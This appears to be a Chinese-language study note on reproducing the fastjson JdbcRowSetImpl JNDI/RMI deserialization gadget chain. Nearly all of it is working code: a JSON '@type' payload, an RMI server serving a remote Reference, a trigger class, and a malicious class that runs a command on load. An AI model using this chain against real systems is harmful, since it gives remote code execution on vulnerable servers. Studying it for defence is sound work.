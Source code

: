 # 基于 JdbcRowSetImpl 的利用链

## JDNI+rmi

都是使用JNDI的reference攻击，利用了`JdbcRowSetImpl `类里面有一个 `setDataSourceName()`方法，这是一个setter方法，fastjson反序列化时会调用

EXP如下：

```json
{
	"@type":"com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName":"rmi://localhost:1099/Exploit", "autoCommit":true
}
```

`rmiserver`代码

```java
import javax.naming.InitialContext;  
import javax.naming.Reference;  
import java.rmi.registry.LocateRegistry;  
import java.rmi.registry.Registry;  
  
public class JNDIRMIServer {  
    public static void main(String[] args) throws Exception{  
        InitialContext initialContext = new InitialContext();  
 Registry registry = LocateRegistry.createRegistry(1099);  
 // RMI  
 //initialContext.rebind("rmi://localhost:1099/remoteObj", new RemoteObjImpl()); // JNDI 注入漏洞  
 Reference reference = new Reference("test","test","http://localhost:8080/");  
 initialContext.rebind("rmi://localhost:1099/remoteObj", reference);  
 }  
}
```

复现的exp

```java
import com.alibaba.fastjson.JSON;  
  
// 基于 JdbcRowSetImpl 的利用链  
public class JdbcRowSetImplExp {  
    public static void main(String[] args) {  
        String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://localhost:1099/remoteObj\", \"autoCommit\":true}";  
 JSON.parse(payload);  
 }  
}
```

恶意类

```java

import java.io.IOException;

public class test {
    public test() throws IOException {
        Runtime.getRuntime().exec("calc");

    }
}
```

